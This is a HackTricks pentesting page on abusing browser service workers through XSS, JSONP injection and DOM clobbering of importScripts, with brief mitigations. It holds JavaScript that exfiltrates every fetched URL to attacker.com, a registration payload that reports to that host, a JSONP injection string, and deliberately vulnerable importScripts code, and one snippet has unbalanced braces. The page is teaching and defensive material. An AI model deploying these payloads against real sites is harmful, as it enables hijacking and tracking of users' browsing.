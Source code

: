 # Abusing Service Workers



<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## Basic Information

A **service worker** is a script run by your browser in the background, separate from any web page, enabling features that don't require a web page or user interaction, thus enhancing **offline and background processing** capabilities. Detailed information on service workers can be found [here](https://developers.google.com/web/fundamentals/primers/service-workers). By exploiting service workers within a vulnerable web domain, attackers can gain control over the victim's interactions with all pages within that domain.


### Checking for Existing Service Workers

Existing service workers can be checked in the **Service Workers** section of the **Application** tab in **Developer Tools**. Another method is visiting [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) for a more detailed view.

### Push Notifications

**Push notification permissions** directly impact a **service worker's** ability to communicate with the server without direct user interaction. If permissions are denied, it limits the service worker's potential to pose a continuous threat. Conversely, granting permissions increases security risks by enabling the reception and execution of potential exploits.

## Attack Creating a Service Worker

In order to exploit this vulnerability you need to find:

* A way to **upload arbitrary JS** files to the server and a **XSS to load the service worker** of the uploaded JS file
* A **vulnerable JSONP request** where you can **manipulate the output (with arbitrary JS code)** and a **XSS** to **load the JSONP with a payload** that will **load a malicious service worker**.

In the following example I'm going to present a code to **register a new service worke**r that will listen to the `fetch` event and will **send to the attackers server each fetched URL** (this is the code you would need to **upload** to the **server** or load via a **vulnerable JSONP** response):

```javascript
self.addEventListener('fetch', function(e) {
  e.respondWith(caches.match(e.request).then(function(response) {
    fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```

And this is the code that will **register the worker** (the code you should be able to execute abusing a **XSS**). In this case a **GET** request will be sent to the **attackers** server **notifying** if the **registration** of the service worker was successful or not:

```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
  .then(function(registration) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://attacker.com/SW/success", true);
    xhttp2.send();
  }, function (err) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://attacker.com/SW/error", true);
    xhttp2.send();
  });
});
</script>
```

In case of abusing a vulnerable JSONP endpoint you should put the value inside `var sw`. For example:

```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```

There is a **C2** dedicated to the **exploitation of Service Workers** called [**Shadow Workers**](https://shadow-workers.github.io) that will be very useful to abuse these vulnerabilities.

The **24-hour cache directive** limits the life of a malicious or compromised **service worker (SW)** to at most 24 hours after an XSS vulnerability fix, assuming online client status. To minimize vulnerability, site operators can lower the SW script's Time-To-Live (TTL). Developers are also advised to create a [**service worker kill-switch**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) for rapid deactivation.

## Abusing `importScripts` in a SW via DOM Clobbering

The function **`importScripts`** called from a Service Worker can **import a script from a different domain**. If this function is called using a **parameter that an attacker could** modify he would be able to **import a JS script from his domain** and get XSS.

**This even bypasses CSP protections.**

**Example vulnerable code:**

* **index.html**

```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
  // attacker controls location.search
</script>
```

* **sw.js**

```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```

### With DOM Clobbering

For more info about what DOM Clobbering is check:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

If the URL/domain where that the SW is using to call **`importScripts`** is **inside a HTML element**, it's **possible to modify it via DOM Clobbering** to make the SW **load a script from your own domain**.

For an example of this check the reference link.

## References

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
